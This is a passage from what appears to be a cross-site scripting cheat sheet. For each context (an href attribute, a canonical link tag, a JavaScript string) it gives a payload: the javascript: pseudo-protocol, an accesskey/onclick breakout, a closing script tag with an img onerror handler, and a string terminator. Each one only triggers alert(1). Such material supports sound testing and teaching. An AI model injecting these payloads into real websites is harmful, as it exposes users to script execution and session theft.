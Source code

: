 * The JavaScript pseudo protocol can be used when the data is being reflected within a href attribute.

    * Example:  \<a href="*user-input*" \>

```html
javascript:alert(1)
```

<br>

### Input is within a canonical link tag

* Example:   \<link rel="canonical" href='httpss://some-site.com/*user-input*' /\>

```html
' accesskey='x' onclick='alert(1)
```

<br><br>

## XSS into JavaScript

### JavaScript String with single quote and backslash escaped

* Use this payload to close the existing \<script\> tag and introduce a new tag that can execute JavaScript code.

    * Example:  \<script\> var x ='*user-input*'\</script\>

```html
</script><img src=x onerror=alert(1)>
```

<br>

### JavaScript String with angle brackets encoded

* This payload will terminate the existing String and close the statement, then comment out the rest of line.  Since the input is within \<script\> tags the payload will execute as JS.

    * Example:  \<script\> var x =’*user-input*’\</script\>

```html
'; alert(1) //
```

<br>

### JavaScript String with angle brackets, double quotes encoded, and single quotes escaped

* The escape character itself, is not escaped, so when we supply it in the payload the application will end up escaping the escape character, instead of the single quote.  Since the input is already within \<script\> tags, the alert() will execute.

    * Example:  \<script\> var x =’*user-input*’\</script\>
